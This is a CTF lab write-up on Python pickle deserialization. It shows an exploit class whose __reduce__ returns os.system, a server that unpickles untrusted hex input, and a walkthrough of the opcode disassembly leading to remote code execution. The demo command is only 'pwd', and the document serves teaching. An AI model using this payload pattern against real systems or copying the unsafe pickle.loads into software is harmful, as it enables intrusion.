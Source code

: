 ```yaml
---
title: Simple Web 0x15.5(Pickle)
tags: [NTUSTWS, CTF, Web]

---
```


# Simple Web 0x15.5(Pickle)
###### tags: `NTUSTWS` `CTF` `Web`

## Background - Pickle
Python magic method: `__reduce__`
`__recude__` is used to define what needs to be done when deserializing.
[Web Hacking | 終章【EDU-CTF 2021】](https://youtu.be/73uI7BK8k3g?t=236)

## Source code
:::spoiler `exploit.py`
```python!=
import pickle
import os
import pickletools

class exploit(object):
    def __reduce__(self):
        return (os.system, ('pwd',))
    

serialized = pickle.dumps(exploit())
print(bytes.hex(serialized))
optim_s = pickletools.optimize(serialized)
print(pickletools.dis(serialized))
print(pickletools.dis(optim_s))
```
:::

--- 
:::spoiler server_app.py
```python=
import pickle

serialized = bytes.fromhex(input('Data: '))
pickle.loads(serialized)
```
:::
## Output & Analyze
### In Linux
![](https://i.imgur.com/uYkq006.png)
* `GLOBAL 'posix system'`: import `posix system`(which is a library in linux)
* `BINPUT 0`: put the top stack to position 0 at Memo structure(array)
* `BINUNICODE`: push string 'pwd' to stack top
* `TUPLE1`: let the element of top stack be a tuple type
* <font color="FF0000">`REDUCE`</font>:
    ```
    args = stack.top() # which is 'pwd' in tuple type
    func = stack.top() # which is 'posix system'
    stack.push(func(args)) 
    # then it'll execute os.system('pwd') and push the output to stack
    ```
![](https://i.imgur.com/VqhEs9r.png)

### In Windows
![](https://i.imgur.com/nnWH7Uh.png)
Much similar with the outcome on linux environment.
### Analyze

## How to RCE?
```bash!
$ python exploit.py | python server_app.py
Data: /home/sbk6401/NTUSTWS/deserialization
```
How did it do?
First, `exploit.py` will serialize the exploit function and turned it to `byte.hex` then send it `server_app.py`
Then `server_app.py` will deserialize it and during the process, it'll execute magic method `__reduce__`, suddenly, it'll execute `os.system('pwd')` at the same time → **RCE**